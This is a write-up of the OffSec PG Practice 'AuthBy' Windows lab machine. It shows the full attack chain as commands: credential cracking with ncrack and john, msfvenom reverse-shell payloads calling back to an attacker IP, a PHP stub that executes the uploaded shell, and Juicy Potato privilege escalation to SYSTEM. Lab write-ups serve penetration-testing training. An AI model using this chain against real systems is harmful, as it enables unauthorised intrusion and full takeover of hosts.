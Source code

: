 ```yaml
---
title: AuthBy
date: 2024-02-25
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Intermediate
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.46
```
![nmap](./nmap.png)

Then, I will run a full port nmap scan
```
nmap -sC -sV -Pn --open -p- 192.168.229.46
```
![full-nmap](./full-nmap.png)

The full port scan reveals two extra ports, 242 and 3145.

## FTP - Port 21
From the nmap results, we can see that anonymous ftp login is allowed.
- use `anonymous` as the user and no password
- after logging in, check what users are available by looking into the accounts directory
```
ftp 192.168.229.46
```
![accounts](./accounts.png)

### Ncrack
Ncrack is a powerful open-source network authentication cracking tool. It's designed to help assess and strengthen the security of networks by identifying weak credentials. 
Ncrack supports various protocols such as SSH, RDP, FTP, Telnet, HTTP(S), and more, making it versatile for testing a wide range of systems. With its robust and flexible features, Ncrack is the perfect
option to try and crack any default passwords now that we have a list of usernames.

I created a usernames.txt file with the following entries
```
admin
backup
Offsec
```

Then, running the following command reveals valid default credentials
```
ncrack -U usernames.txt -P /SecLists-master/Passwords/Default-Credentials/default-passwords.txt ./passwords.txt
```
![ncrack](./ncrack.png)

Login to the ftp console as admin
- then, use the command `mget *` in ftp to download all the files for the admin user
- there are three files, `.htaccess`, `.htpasswd` and `index.php`
- looking at all the files, `.htpasswd` has a password for the user offsec that we can crack using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```

John successfully cracked the password for user offsec which is `elite`
- the password does not work for ftp login using username offsec, so we can try this credential for other services

## HTTP - Port 242
We can use the credentials `offsec:elite` to authenticate to the http
- using these credentials, we can run a gobuster scan with the `-U` and `-P` flags
```
gobuster dir -u http://192.168.229.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php -U offsec -P elite
```

The gobuster results show status code 200 for `index.php`, however, there aren't any other interesting results.

# Exploitation
We will be able to access files uploaded through admin user FTP. We can upload a reverse shell through FTP and then access it from the 
authenticated HTTP server

1. Create a msfvenom reverse shell for a Windows machine
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell.exe
```

2. Create a php file to run the reverse shell, otherwise, going to `/revshell.exe` will simply download the file
```
<?php
$exec = system('revshell.exe', $val)
?>
```

3. Now, log in as admin through FTP and use `mput` to upload the reverse shell and the run.php
![upload](./upload.png)

4. Start a nc listener with `nc -lnvp 1234`

5. Go to url `http://192.168.229.46/run.php` to trigger the php script that will run the reverse shell.
![foothold](./foothold.png)

We are able to get a foothold on the system as user livda\apache.

## Privilege Escalation
We can enumerate the system for useful information
```
whoami /all
```
![impersonate](./impersonate.png)

Also, get more detailed information on the system
![systeminfo](./systeminfo.png)

From the enumeration we can see that
- the `SeImpersonatePrivilege` is enabled
- the machine is running a Windows 2008 Server x86

We can use Juicy Potato found [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
- JuicyPotato requires a class ID (CLSID) which is unique to the operating system
- the website [here](https://ohpe.it/juicy-potato/CLSID/) helps us choose a CLSID, use the CLSID for Windows Server 2008 in this case

1. Clone the JuicyPotato.exe file and upload to the machine using admin FTP
2. Create another msfvenom reverse shell to use for juicy potato
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell2.exe
```
3. Upload the `revshell2.exe` using admin FTP
4. Run JuicyPotato using the first CLSID found on the website
```
Juicy.Potato.x86.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -l 1337 -p "C:\wamp\www\revshell2.exe"
```
![run](./run.png)
![result](./result.png)

The command works and we have a shell as NT Authority\System.

# Summary
Reconnaissance:
- Conducted Nmap scan to identify open ports and services
- Discovered an FTP server with anonymous login enabled
- Used Ncrack to verify default credentials, gaining access to the FTP console
- Obtained hashed passwords from the FTP server

Initial Access:
- Cracked hashed passwords using John the Ripper
- Accessed an HTTP service using compromised credentials
- Utilized Gobuster to enumerate directories, discovering a potential upload functionality

Exploitation:
- Uploaded a crafted reverse shell through FTP
- Triggered the execution of the reverse shell via a PHP script on the HTTP server, gaining initial access to the system

Privilege Escalation:
- Leveraged the SeImpersonatePrivilege privilege and system information obtained through enumeration
- Exploited a known CLSID vulnerability using Juicy Potato
- Executed Juicy Potato with the appropriate CLSID, resulting in escalated privileges to NT Authority\System

Join me for the next machine soon for more exciting challenges and security insights!

+20 points